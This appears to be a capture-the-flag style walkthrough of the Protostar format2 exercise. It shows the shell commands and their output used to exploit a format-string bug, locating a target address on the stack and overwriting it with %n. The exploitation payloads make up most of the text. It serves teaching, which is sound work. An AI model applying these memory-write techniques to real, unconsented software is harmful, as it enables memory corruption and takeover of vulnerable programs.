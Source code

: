
First of all, we will try to find where `80496e4` `target` would appear in the printed raw stack from vulnerable `printf()`, additional "A"s is for clarity purpose:
```bash
./format2 <<< $(python -c 'print("\xe4\x96\x04\x08" + "AAAA" + "%x "*20)') | grep --color=always -e "^" -e "80496e4"
AAAA200 b7fd8420 bffff614 80496e4 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a782520
target is 0 :(
```

It appears that the `80496e4` located at position 4
```bash
./format2 <<< $(python -c 'print("\xe4\x96\x04\x08" + "AAAA" + "%x "*4)') | grep --color=always -e "^" -e "80496e4"
AAAA200 b7fd8420 bffff614 80496e4
target is 0 :(

./format2 <<< $(python -c 'print("\xe4\x96\x04\x08" + "%x "*4)') | grep --color=always -e "^" -e "80496e4"
200 b7fd8420 bffff614 80496e4
target is 0 :(
```

Introducing `%n$x`, `%n$` the `n` is any number or index let's say, that we can used to access a particular stack address. It's like an array. We know in array we can access the desired value by specifing its location/index, arr[2] accessing value at third position. For the latter, `$x` can be any format specifier. It can be hex `x` or an pointer `p`.
```bash
./format2 <<< $(python -c 'print("%3$x")')
bffff614
target is 0 :(

./format2 <<< $(python -c 'print("%3$p")')
0xbffff614
target is 0 :(
```

Another example: if you have a format string like this:
```bash
$ ./format2 <<< $(python -c 'print("Hello %1$x %2$x %3$x")')
Hello 200 b7fd8420 bffff614
target is 0 :(
```
This would print the first, second, and third arguments on the stack in hexadecimal format.

1. %1$x accesses the first argument.
2. %2$x accesses the second argument.
3. %3$x accesses the third argument.


After we found where `80496e4` is popped, now we can try modify it by leverging the `%n`:
Why the target is 26? Where does that number came from?

```bash
./format2 <<< $(python -c 'print("\xe4\x96\x04\x08" + "%x "*3 + "%n")')
200 b7fd8420 bffff614 
target is 26 :(
```


Solution
```bash
./format2 <<< $(python -c 'print("\xe4\x96\x04\x08" + "%x "*3 + "A"*38+ "%n")')
200 b7fd8420 bffff614 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```


```bash
./format2 <<< $(python -c 'print("\xe4\x96\x04\x08" + "%x "*4 + "%64x" + "%n")')
```
